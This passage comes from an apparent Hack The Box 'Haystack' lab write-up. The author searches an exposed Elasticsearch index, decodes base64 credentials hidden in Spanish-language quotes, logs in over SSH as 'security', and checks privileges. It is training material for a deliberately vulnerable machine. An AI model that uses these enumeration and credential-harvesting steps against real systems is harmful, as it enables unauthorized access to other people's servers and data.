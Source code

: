 So we can see quotes and bank are created indices.


I go to:

`http://10.129.110.54:9200/bank/_search?pretty=true&size=1000`

size just means that we display 1000 results. 10 is the default.

There is a lot of names here. The quotes index is full of spanish quotes.

In the quote results, I search for "login", "user", and "password", but find nothing.

But when I search "clave" I find "Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="

`"This key cannot be lost, I keep it here: cGFzczogc3BhbmlzaC5pcy5rZXk="`

```
kali@kali:~/htb/Haystack$ echo "cGFzczogc3BhbmlzaC5pcy5rZXk=" | base64 -d ; echo
pass: spanish.is.key
```

And the other match for clave= "Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "

`"I have to save the password for the machine: dXNlcjogc2VjdXJpdHkg" `


``` 
kali@kali:~/htb/Haystack$ echo "dXNlcjogc2VjdXJpdHkg" | base64 -d ; echo
user: security 
```

So I SSH in:

```
kali@kali:~/htb/Haystack$ sudo ssh security@10.129.110.54
The authenticity of host '10.129.110.54 (10.129.110.54)' can't be established.
ECDSA key fingerprint is SHA256:ihn2fPA4jrn1hytN0y9Z3vKpIKuL4YYe3yuESD76JeA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.110.54' (ECDSA) to the list of known hosts.
security@10.129.110.54's password: 
X11 forwarding request failed on channel 0
Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
[security@haystack ~]$ whoami
security
[security@haystack ~]$ id
uid=1000(security) gid=1000(security) groups=1000(security) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[security@haystack ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for security: 
Sorry, user security may not run sudo on haystack.
[security@haystack ~]$ 

```
